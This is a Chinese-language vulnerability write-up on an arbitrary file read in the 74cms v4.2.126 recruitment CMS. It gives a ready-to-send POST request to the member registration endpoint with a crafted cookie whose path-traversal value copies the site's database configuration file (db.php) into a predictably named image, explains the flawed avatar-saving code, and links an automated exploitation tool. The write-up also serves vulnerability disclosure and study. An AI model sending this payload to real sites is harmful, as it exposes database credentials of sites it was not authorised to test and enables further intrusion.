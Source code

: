74cms v4.2.126-任意文件读取漏洞
===============================

0x00 前言
---------

厂商：74cms下载地址：http://www.74cms.com/download/index.html关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
----------------------

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为 http://baidu.com 即可

0x02 任意文件读取漏洞演示
-------------------------

    url: http://74cms.test/index.php?m=Home&c=Members&a=register

    post: 
    reg_type=2&utype=2&org=bind&ucenter=bind
    cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php;members_bind_info[type]=qq;members_uc_info[password]=123456;members_uc_info[uid]=1;members_uc_info[username]=tttttt;
    headers:
    Content-Type: application/x-www-form-urlencoded
    X-Requested-With: XMLHttpRequest

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId24.png)

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId25.png)

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId26.png)

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId27.png)

问题一：漏洞原理？我下面会讲问题二：你如何知道文件名称的？我下面会讲问题三：能不能写个简单的工具，自动利用此漏洞？哦，好的，我下面会提供 : )

0x03 漏洞讲解
-------------

打开文件：74cms\\upload\\Application\\Home\\Controller\\MembersController.class.php函数：\_save\_avatar(\$avatar, \$uid)

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId29.png)

如果不想看图片注释的话，我这里简单的说一下。812行使用\$avatar拼接形成\$path830行使用了\$save\_avatar+\$savePicName; 生成了\$filename838行，使用了copy函数，把\$path文件内容复制到了\$filename中。而 \$avatar 和 \$uid 都是我们刚好可以控制的变量并且生成的文件名称是\$uid+time() 然后md5 一下 拼接 .jpg这个情况就很舒服了。写个小工具跑一下就好了，小工具会在结尾的时候放出来的。好了，让我们继续看下去 : )我们现在既然已经知道了\_save\_avatar
函数是有可能造成此漏洞的那么这时，我们就需要去找调用它的地方了。经过一顿的搜索我们得出了两个地方是调用了他地方一：register() 方法 会员注册方法地方二：oauth\_reg() 方法 第三方登录注册方法论此漏洞的利用当然是register() 方法利用起来比较简单 因为 方法二
需要搭建第三方登录，我本地的话。。。还是算了，这里掩饰我使用 方法一打开文件：74cms\\upload\\Application\\Home\\Controller\\MembersController.class.php函数：register()

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId30.png)

上面的马赛克是因为我写错了几个字，又不想重新写，所以我就把他擦掉了。皮这一下，我就很开心

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId31.png)

这里我们讲解一下如果
post的变量ucenter为bind时，则通过cookie获取数组\$uc\_user接着会进行数组合并而members\_uc\_info的cookie值是可控的，所以\$data也是可控的。

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId32.png)

这里写着 当 \$data\[utype\] = 1
会进行用户注册，而\$data\[utype\]是我们可以控制的所以我们为2绕过此判断这里我又跳过了前面一些无关紧要的内容，来到了最后的漏洞触发点。因为真的无关紧要,所以就跳过了

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId33.png)

0x04 漏洞利用小工具
-------------------

https://github.com/ianxtianxt/74cms-upload

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId35.png)

![](./.resource/74cmsv4.2.126-任意文件读取漏洞/media/rId36.png)

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/dr895b
